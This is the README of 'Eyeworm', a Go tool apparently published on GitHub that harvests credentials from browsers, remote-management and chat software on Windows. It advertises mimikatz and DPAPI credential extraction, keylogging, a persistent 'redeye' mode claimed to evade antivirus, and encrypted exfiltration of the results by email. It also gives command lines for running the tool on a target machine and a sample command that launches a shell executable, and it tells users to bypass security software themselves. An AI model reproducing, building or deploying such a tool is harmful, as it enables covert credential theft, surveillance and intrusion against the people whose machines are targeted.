


# Eyeworm V 1.2.0 Introdution

A powerful and flexible customized information collection tool implemented in Go language,It supports file, folder, file content, user-defined command, registry, specified process, mimikatz command, dpapi, recent access record and other collection methods.Flexible customized configuration is supported. Just update the configuration file that defines the collection rules, select the rules to be executed, and you can enable the collection of credentials and information for various browsers, remote management tools, sensitive keywords, and chat software. Persistence and encrypted content transmission are also supported. Keep up with the news. You are welcome to provide a richer collection of collection and configuration rules.


### I am the swarm!


## features

- Support collection of common software credentials, configurable customization of file path, registry, suffix, etc. of common software credentials -- XML, JSON, INI, TXT format
- You can customize mremoteNG, MobaXterm, Terminals, Remote Desktop Connection, RDO, XT800, VNC and other remote control software, and collect the configuration files, data files, key files, registry information, recent access records and other information of note software. The more rule sets, the more applicable environments, and the more information collected. You are welcome to provide your own configurations in the problem area. I will take the time to integrate them into the main version
- Support Linux and run in Windows (currently only implemented in Windows)
- Support credential collection under the corresponding path of the process
- Support the collection of command execution results, such as running commands to obtain environment variables, and extracting credentials in environment variables according to keywords
- Support credential collection in temporary files of installation scripts
- Support the collection of credentials in texts and documents (full-text retrieval has been implemented for a first version, but it may need to be reconstructed later considering the type support, efficiency, resource occupation and other issues of search files)
- Support file collection of recent access records
- Support decryption of common credentials (integrated with Mimikatz implementation)
- Keylog support
- Support the collection of shared files and USB storage file credentials (not yet implemented)
- Support the same de duplication of content during resident collection (not implemented yet)
- Support automatic compression and encryption transmission to the outside after collection
- Plug ins supporting cs (not implemented yet)

## Command parameters and functions

-all     This is equivalent to executing the following - wfiles - wcommands - wprocess - registry - write - wmimikatz parameter command
-wfiles  According to the configuration file, the file name of the file, folder, and content collection supports wildcard characters *,? For example: a? c. Ab *, * password

-wcommands  Collect output information according to the cmd command set of the configuration file (combined with wfiles, command result files can be collected)

-wprocess According to the process name of the configuration file, match the running process path for information collection

-wregistry Collect registry key information according to profile configuration

-wrecent  Collect recently accessed target files according to profile configuration

-wmimikatz Use encrypted mimikatz to collect results according to the configuration file configuration

-dpapi Get Masterkey

-spy Turn on monitoring, and end after turning off the computer

-redeye 开启常驻模式（持久化，重启自启），需要配置 回传邮件、打包密码、常驻规则。To enable the resident mode (persistence, restart automatically), you need to configure the return mail, packaging password, and resident rules. (This mode has pass AV and hiding, and must be released with the same configuration file.)
For example:`Eyeworm -wfiles -wcommands -redEye` Enable resident collection of files and commands

-upload To upload the collection results, you need to configure the return mail and packaging password

-o="result.txt" Output the collected results to the file

-keylog The keyboard recording function is enabled (red eye or spy must be enabled)

-unred Release the computer's redeye resident mode

## Configuration File  EyeConfig.json  Explain

The general configuration fields are described in the configuration file. The following is a description of a single collection policy field:

`        {

```
        "RuleName":"DefultFilesWorm",         //Customized rule names, such as extended chromeWorm, and QQBrowerWorm are used to distinguish
        
        "OS": "Windows",                      //Adapt to the operating system. It is planned that the subsequent versions are compatible with Linux and Unix   
        
        "CollectorType": "File",              //The types corresponding to the collection policies, such as the collection policies of the file type collected by wfiles, are mainly classified as follows:(File file collection, Command command collection, Recent access, Process specified process collection, Registry registry collection, APi mimikatz collection)
        
        
        "Category": "defult",                //Classification is used to classify rule sets, such as Browsers, remoteTools, and chatTool
        
        "Locations":["C:/Users/admin/Chrome","E:/QQ"],  //Search path set, file, folder mandatory fields
        
        "ContentKeys": ["\"_id\":","password:"],       //Matching keywords for content collection, collection of content files, and folder city ContentKeys optional fields
        
        "FileName":["*c","a?b","*"],                    //File name matching words, mandatory fields for files and folders         
        
        "SuffixTypes":[".txt"],                         // Search file suffix, file, folder mandatory field
        
        "Explain": "文件及文件夹收集,支持 * 通配符  ",   //Rule Function and Configuration Description Comment Fields
        
        "Commands":["set && ipconfig/all >>info.txt &&start 'E:\shell.exe'"],    // Commands to be executed in command collection, mandatory fields for command collection)
        
        "ProcessName": ["QQ.exe","Chrome.exe"],                 // The process in process collection. It is a required field for process collection. Process collection is mainly used to obtain the corresponding path according to the current system running process, and quickly locate the path of the configuration file or key file in the custom installation scenario
        
        "DeCrypt": false,                                     //  Reserved field, native file or data decryption function (todo)
        
        "DeCryptCommand": null                                //Reserved word decryption command （todo）
        
    },`
```

## Compile and Updating Configuration File

### Compile

Enter PackSource，After configuring  ico，EyeConfig.json，versioninfo.json，main.manifest. run PackSource Go to get main.syso generated in the EyeWorm directory

Back to the EyeWorm directory, go build

### Updating Configuration File

In consideration of convenience and security, the collection configuration file is embedded in the exe. The EXE and section table compiled by go are different from other compilers to avoid the trouble of repeated compilation. The UpdateSource tool is provided to update the embedded EyeConfig Json configuration file. In consideration of the subsequent implementation of Linux, this part is likely to need to be reconstructed in the future. How to use it:

1. Compile the content in UpdateSource to get the update tool UpdateSource.exe
2. Modify your own EyeConfig.json
3. `UpdateSource.exe -File=Eyeworm.exe -Data=EyeConfig.json`   To update!

### Attack

Eyeworm.exe uploads and executes the corresponding command on the target machine
ex：`Eyeworm.exe -wfile -wcommand -wprocess -wregistry -wrecent -wmimikatz -keylog -redeye`




## ToDo


-High efficiency and low resource collection algorithm for improving content keyword search collection

-Implement custom collection in Linux/Unix environment

-Implement Keylog in Linux/Unix environment

-One or more payloads like mimikatz are added for inheritance and customization

-Realize the self updating function of configuration files under ELF

-Realize self generation of collection executable files under the corresponding OS, and automatically transform and encrypt each time

-Implement customized encryption and decryption of keylog record files

-Plug ins that support making cs

-The implementation supports more covert automatic return mode. After all, the SMTP mode is old and will leak the mailbox authorization token

## Careful

You need to run with administrator permission, otherwise the resident and mimikatz functions may fail
Due to the integration of mimiktaz, although most AVs are bypass tested when this version is released, some AVs may report virus due to time lapse, so please bypass the security software by yourself

# Contact me --- Xiao Feng

I love technology and study hard. I welcome brothers with the same ideals to study and discuss with me
Mail: 1098516987@qq.com      CSDN:[https://blog.csdn.net/VB551](https://blog.csdn.net/VB551)

# For forwarding, please indicate the original address！[https://github.com/imsellbaox/Eyeworm](https://github.com/imsellbaox/Eyeworm)
